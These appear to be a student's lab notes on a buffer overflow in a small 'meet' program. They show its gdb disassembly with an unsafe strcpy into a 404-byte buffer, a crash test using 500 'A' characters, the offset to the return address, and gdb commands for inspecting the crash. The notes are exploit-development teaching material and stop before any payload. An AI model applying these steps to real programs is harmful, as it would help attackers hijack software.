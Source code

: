  - `disas greeting` - > disassembling greeting function

```
Dump of assembler code for function greeting:
   0x000011c9 <+0>:     push   ebp
   0x000011ca <+1>:     mov    ebp,esp
   0x000011cc <+3>:     push   ebx
   0x000011cd <+4>:     sub    esp,0x190
   0x000011d3 <+10>:    call   0x10d0 <__x86.get_pc_thunk.bx>
   0x000011d8 <+15>:    add    ebx,0x2e28
   0x000011de <+21>:    push   0x190
   0x000011e3 <+26>:    push   0x0
   0x000011e5 <+28>:    lea    eax,[ebp-0x194]
   0x000011eb <+34>:    push   eax
   0x000011ec <+35>:    call   0x1070 <memset@plt>
   0x000011f1 <+40>:    add    esp,0xc
   0x000011f4 <+43>:    push   DWORD PTR [ebp+0xc]
   0x000011f7 <+46>:    lea    eax,[ebp-0x194]
   0x000011fd <+52>:    push   eax
   0x000011fe <+53>:    call   0x1050 <strcpy@plt>
   0x00001203 <+58>:    add    esp,0x8
   0x00001206 <+61>:    lea    eax,[ebp-0x194]
   0x0000120c <+67>:    push   eax
   0x0000120d <+68>:    push   DWORD PTR [ebp+0x8]
   0x00001210 <+71>:    lea    eax,[ebx-0x1ff8]
   0x00001216 <+77>:    push   eax
   0x00001217 <+78>:    call   0x1040 <printf@plt>
   0x0000121c <+83>:    add    esp,0xc
   0x0000121f <+86>:    nop
   0x00001220 <+87>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x00001223 <+90>:    leave
   0x00001224 <+91>:    ret
End of assembler dump.

```
 - according to disassembly result , we should see an instruction that implmenting for character array 
 - `lea    eax,[ebp-0x194]` at greeting+28 
 - manual offset calculating
	 - 0x194 = 404 bytes in decimal
 - tesing for Buffer Overflow vulnerability
	 - according to source code , we knew argv[2] is copying into buffer
	 - `$(python -c 'print "A"*500')` -> generating 500 times of A characters with python
	 - let's test

```
lol@local:/root/Desktop/cs642$ ./meet AAAA $(python -c 'print "A"*500')
Segmentation fault
```
 - offset -> `404 bytes + saved ebp ` = 408 bytes before eip
 - we need to examine crash with gdb
	 - `break *greeting+91` -> set a break point at greeting's ret instruction
	 - when program runs , we need to examine stack, registers, and eip
	 - `define hook-stop` -> defining pre-commands when program stop
	 - `info registers` -> showing registers
	 - `x/32x $esp` -> examining stack 
	 - `x/2i $eip` -> show two instructions of eip
